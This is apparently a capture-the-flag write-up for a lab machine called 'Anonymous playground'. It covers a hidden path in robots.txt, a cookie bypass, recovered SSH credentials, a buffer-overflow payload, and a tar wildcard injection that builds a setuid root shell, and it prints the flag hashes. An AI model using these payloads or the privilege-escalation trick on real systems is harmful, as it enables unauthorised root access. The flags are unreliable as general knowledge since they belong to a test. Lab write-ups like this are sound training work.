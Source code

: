 # Anonymous playground

# Target IP : 10.10.24.246

# PORT 80 

```
/robots.txt
User-agent: *
Disallow: /zYdHuAKjP
```
```
/zYdHuAKjP
change the cookie to granted

hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
ape.py give magna : magnaisanelephant
```

# PORT 22 

> user magna
flag.txt
9184177ecaa83073cbbf36f1414cc029

(python3 -c 'print("A"*72 +"\x58\x06\x40\x00\x00\x00\x00\x00")'; cat) | ./hacktheworld 

> user spooky
flag.txt 
69ee352fb139c9d0699f6f399b63d9d7

```bash

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

#!/bin/bash

cp /bin/bash /tmp/rooter
chmod +s /tmp/rooter

```
> use root
flag.txt 
bc55a426e98deb673beabda50f24ce66

